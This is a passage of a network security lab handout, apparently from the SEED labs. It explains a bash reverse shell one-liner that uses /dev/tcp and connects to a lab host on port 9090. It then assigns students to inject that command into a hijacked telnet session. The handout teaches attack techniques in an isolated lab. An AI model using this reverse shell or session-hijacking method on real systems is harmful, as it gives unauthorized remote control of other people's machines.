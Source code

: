 We provide a brief description on the reverse shell command in the following.
Detailed explanation can be found in the SEED book.

\begin{itemize}
\item \texttt{"/bin/bash -i"}: \texttt{i} stands for interactive, meaning that the shell must be
  interactive (must provide a shell prompt)

\item \texttt{"> /dev/tcp/10.9.0.1/9090"}: This causes the output (\texttt{stdout}) of the shell
  to be redirected to the tcp connection to \texttt{10.9.0.1}'s port \texttt{9090}.
  The output \texttt{stdout} is represented by file descriptor number~1.

\item \texttt{"0<\&1"}: File descriptor 0 represents the standard input (\texttt{stdin}). This causes
  the  \texttt{stdin} for the shell to be obtained from the tcp connection.

\item \texttt{"2>\&1"}: File descriptor 2 represents standard error \texttt{stderr}. This
  causes the error output to be redirected to the tcp connection.
\end{itemize}

In summary, \texttt{"/bin/bash -i > /dev/tcp/10.9.0.1/9090 0<\&1 2>\&1"} starts a
\texttt{bash} shell, with its input coming from a tcp connection, and its standard
and error outputs being
redirected to the same tcp connection. 

In the demo shown above, when the \texttt{bash}
shell command is executed on \texttt{10.9.0.5}, it connects back to the \texttt{netcat} process
started on \texttt{10.9.0.1}. This is confirmed via the \texttt{"Connection received on 10.9.0.5"}
message displayed by \texttt{netcat}.


The description above shows how you can set up a reverse shell if you have
the access to the target machine, which is the \texttt{telnet} server in
our setup, but in this task, you do not have such an access. Your task is 
to launch an TCP session hijacking attack on an existing \texttt{telnet}
session between a user and the target server. You need to inject your
malicious command into the hijacked session, so you can get a reverse
shell on the target server. 

\paragraph{Submission} Submit python code used to hijack the session with explanations on what the code is doing.
Provide WireShark screenshots of the command being run and the reverse shell being established.

